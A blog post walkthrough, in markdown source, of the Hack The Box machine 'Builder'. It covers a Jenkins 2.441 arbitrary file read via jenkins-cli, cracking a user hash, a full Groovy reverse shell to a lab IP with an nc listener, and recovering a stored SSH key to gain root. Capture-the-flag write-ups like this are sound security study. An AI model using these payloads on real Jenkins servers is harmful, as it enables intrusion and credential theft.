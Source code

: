 ```yaml
---
layout: single
classes: #wide
title: "Hack The Box - Builder"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Hack The Box]
tags: [jenkins, nc, nmap]
---
```

![box](/assets/images/builder/index.png)  
Jenkins box with arbitrary file read with a root key post login, what more could one ask for :wink:

# Recon
This box starts of like any other, an nmap scan to get an idea of the infrastructure:
![nmap](/assets/images/builder/nmap.png)  

We have 2 ports open, 8080 (web-server) and 22 (ssh). Viewing the 8080 web server we are presented with this page:
![jenkins](/assets/images/builder/jenkins.png)  

Within this page we have 2 critical elements, the login page that we can be
directed to and the jenkins version `2.441`. After a little google dorking some
CVE's and potential exploits I came across this page:
https://blog.securelayer7.net/arbitrary-file-read-in-jenkins/

Within this blog it covers what the exploit is and how to exploit the
vulnerability. For some reason jenkins doesn't like the @ symbol when provided
with user input, so what are we going to do? Just that.

# Exploitation
Using the payload: `java -jar ~/tools/jenkins-cli.jar -s 'http://builder:8080' -http connect-node '@/var/jenkins_home/users/users.xml'` we can successfully view the users on the machine. 
![jennifer](/assets/images/builder/jen.png)  

We now have the user `jennifer_12108429903186576833`. Knowing this we can run the same payload but modified for our new found user jennifer.  
`java -jar ~/tools/jenkins-cli.jar -s 'http://builder:8080' -http connect-node '@/var/jenkins_home/users/jennifer_12108429903186576 `
![jenniferpw](/assets/images/builder/jenpw.png)  

AWESOME! A hash. What do we do with a hash? We force feed it to John :smiling_imp:  

John tells us the password is: (as per usual, look at the source code to see the answers)
<!-- princess -->

Logging into the jenkins page as jennifer we see that we have full reign on the jenkins server. Meaning EASY BYPASSES BABY!

So, after a little digging I came across a script page. 
![script](/assets/images/builder/script.png)  

More google dorking == reverse groovy shell :sunglasses:  
And it looks something like this:  
```
String host="10.10.14.156";
int port=999;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Running a nc listener `nc -lvnp 999` we get our shell (you already know the deal)

Now, time to cat user.txt.

BOOM! Just like that we have the first milestone

Next, its time to get root. This is where things slowed down a bit :pensive:

I ran linpeas, no luck (a few old exploits but nothing major enough to priv
esc). I manually searched exploit locations, no luck. I tried to ssh in with a
priv key I set initially on the update credentials page, NO LUCK. 

At this point I'm 6 hours in haven't eaten and getting anoyed right. So, the
machine resets and I come back to my computer. I login and decide to try to ssh
in once more. I go to the update credentials tab once more but this time before
I manually enter them I try to see if there is any way to pull the hidden key...
and there is :yum:. I ssh with the new key (decrypting it in the jenkins script
tab using their libs). Decrypt source can be found
[here](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml)
and it worked! I successfuly ssh'd into the machine and got the root.txt!

BOX PWNED! :tada:

All of this being done and said I haven't touched ssh much because I can never
seem to get it to work. From incorrect permissions, keys, configs, wrong key
name, you name it I've done it. So, I also wasn't too familiar of why ssh keys
could fail. Turns out you can make only certain keys authenticate. So, even if
the key you enter into the filed (like I did). ;-; Didn't know this going in, so
the more you know ig.
 
# Lessons Learned
* Arbrirary file read vuln
* SSH keys can be blocked even if they are valid 
    - ex: they can be whitelisted/blacklisted
 
Ya, not too much learned... but it was fun. It's about journey right?


-- Ryu out :triumph: